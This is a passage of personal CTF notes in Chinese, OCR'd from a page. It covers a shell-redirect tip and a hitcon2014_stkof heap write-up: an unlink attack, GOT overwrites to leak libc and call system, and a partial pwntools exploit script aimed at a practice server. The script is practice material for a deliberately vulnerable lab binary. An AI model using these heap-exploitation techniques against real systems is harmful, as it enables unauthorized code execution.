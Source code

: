 通过exec 1>&0来把标准输出重定向到文件描述符0(标准输入)

![image-20210905234610322](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210905234610322.png)



## hitcon2014_stkof

unlink将heaparray[2]指向heaparray[0]从而控制堆指针

修改free_got为puts_plt，heaparray[1]为puts_got，从而free(1)以泄露libc地址

修改atoi_got为system，send(p64(bin_addr))

getshell

```python
from pwn_debug import *
context.log_level = 'debug'

pdbg = pwn_debug('./stkof')
pdbg.remote("node4.buuoj.cn", 26584, "/home/xyc/share/s/libc-2.23_x64.so")
p = pdbg.run('remote')
libc = pdbg.libc
elf = pdbg.elf

#p = process(['/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so','./stkof'],env={"LD_PRELOAD":"/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so"})
#libc = ELF("/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")
#elf = ELF("./stkof")

def add(size):
	p.sendline('1')
	p.sendline(str(size))
	p.recvuntil("OK\n")
	
def edit(index, size, content):
	p.sendline('2')
	p.sendline(str(index))
	p.sendline(str(size))
	p.send(content)
	p.recvuntil("OK\n")

def delete(index):
	p.sendline('3')
	p.sendline(str(index))
	
def show(index):
	p.sendline('4')
	p.sendline(str(index))

heaparray = 0x602140
add(0x20) #1
add(0x30) #2
add(0x80) #3


payload = p64(0) + p64(0x20) + p64(heaparray+0x10-0x18) + p64(heaparray+0x10-0x10) + p64(0x20) + 'aaaaaaaa' + p64(0x30) + p64(0x90)
edit(2, len(payload), payload)


delete(3)
p.recvuntil("OK\n")


```